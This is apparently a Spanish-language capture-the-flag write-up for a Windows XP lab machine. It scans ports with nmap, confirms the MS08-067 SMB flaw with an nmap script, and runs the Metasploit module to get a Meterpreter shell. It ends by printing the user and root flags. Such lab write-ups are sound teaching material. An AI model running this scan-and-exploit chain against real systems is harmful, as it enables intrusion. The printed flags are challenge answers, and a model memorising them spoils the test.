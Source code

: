 
![[ 20250708095033.png]](legacy-images/20250708095033.png)

# Nmap

relizamos un escaneo basico de puertos con nmap

```bash
nmap -p- --open --min-rate 5000 -sS -vvv -n -Pn 10.129.241.19 -oN scanner
```
![[ 20250708095741.png]]

Una vez identificados los puertos abiertos procedemos a lanzar scripts básicos para ver el servicio y la versión que corren por detras

```bash
nmap -p135,139.445 -sCV 10.129.241.19 -oN targeted
```

![[ 20250708095923.png]]

# Autorecon

Vamos a utilizar la herramienta autorecon a ver si conseguimos sacar algún dato extra que nos ayude a saber por donde debemos atacar

![[ 20250708100741.png]]

aqui podemos ver que la maquina utiliza un windows XP del 2000-2008 PocketPC/CE tratemos de buscar vulnerabilidades es este tipo de sistemas

comprobamos que los equipos con el S.O de nuestra victima son vulnerables a CVE-2008-4250 fue una vulnerabilidad muy tipica en la epoca por lo que vamos a comprobarlo

usando nmap podemos filtrar vulnerabilidades primero hay que ver si la vulnerabiliad se encuentra en el listado de nmap 

```bash
ls /usr/share/nmap/scripts/ | grep smb
```
![[ 20250708101928.png]]

podemos comprobar que si que esta la vulnerabilidad asi que usamos nmap para confirmarlo

```bash
nmap -p445 10.129.227.181 --script smb-vuln-ms08-067 -sV
```

![[ 20250708102045.png]]

vemos que nmap termina de confirmar nuestras sospechas

# metasploit

abrimos metasploit

```bash
msfdb run
```

buscamos exploits con la vulnerabilidad y vemos que si que existe uno 

```bash
search ms08-067
```

![[ 20250708102247.png]]

```bash
use 0
```

cambiamos el rhosts 

```bash
set rhosts <IP Victima>
```

```bash
exploit
```

![[ 20250708102611.png]]

vemos que el exploit es un exito y nos devuelve una shell como meterpreter

vemos que en el directorio `C:\Documents and Settings\Administrator\Desktop` se encuentra la flag de root

![[ 20250708102844.png]]

y la flag de user esta en el directorio `C:\Documents and Settings\john\Desktop `

![[ 20250708102935.png]]

# flags

user : e69af0e4f443de7e36876fda4ec7644f

root : 993442d258b0e0ec917cae9e695d5713
